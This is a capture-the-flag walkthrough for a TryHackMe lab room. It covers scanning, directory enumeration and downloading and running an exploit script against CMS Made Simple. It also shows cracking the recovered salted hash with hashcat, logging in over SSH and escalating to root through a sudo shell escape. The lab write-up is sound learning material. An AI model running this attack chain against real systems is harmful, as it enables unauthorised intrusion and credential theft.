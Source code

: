 # SimpleCTF Room

[Link to room](https://tryhackme.com/room/easyctf)

## Scanning
Run an nmap scan on the IP address from your portal. Replace the IP below with your THM victim machine.

 ```
 sudo nmap -sC -sV -O 10.10.x.x -vv 
```

## Enumeration
Run GoBuster on the web server to determine the directories that are available. 

```
 gobuster dir -u http://10.10.x.x -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 40
```

You will not know what CVE to look for until you get to the webpage that is found in the GoBuster scan.

Once there, look at the bottom left corner of the webpage for Name of application and version number/

Next you will search for the CVE using Google. 

Then you will search for the exploit using the following.
```
  searchsploit CMS Made Simple
```
Once you have identified the CVE, download the updated python script as shown below.

```
  wget https://raw.githubusercontent.com/gray-area/THM/main/SimpleCTF/exploit.py
```
After you have run the above command, run the following command to run the exploit.py script.
```
  sudo python3 exploit.py -u http://10.10.x.x --crack -w /usr/share/wordlists/rockyou.txt
```

After the exploit.py script runs, there will be an output of the username, salt and hash. Use the salt and hash as shown below.
```
  hashcat -m 20 0c01f4468bxxxxxxxxxxx73846e8d96:1dac0d92e9fa6bb2 /usr/share/wordlists/rockyou.txt
```
Now that you have the password, SSH into the box using the username that was found from the Python script. 
```
  ssh mitch@10.10.x.x -p 2222
```
Then open the user.txt file by entering the following
```
  cat user.txt
```

## Escalation

Now we need to get access to a privileged shell. To check what is running as root, enter the following.
```
  sudo -l
```

Now we can check out what options are available for this by going to GTFO Bins on GitHub and looking for our service. Make sure you select SUDO from the options.

We now have a code snippet to enter into our shell.
```
  sudo xxx -c ':!/bin/sh'
```

Now we have to find the root flag. I guessed the name here and found it was right. 

```
  locate root.txt
```
I then open file at the location provided like below

```
  cat /path/to/root.txt
```

Thats it! If you followed along, you have completed the challenge. 

Happy hacking - gray_area


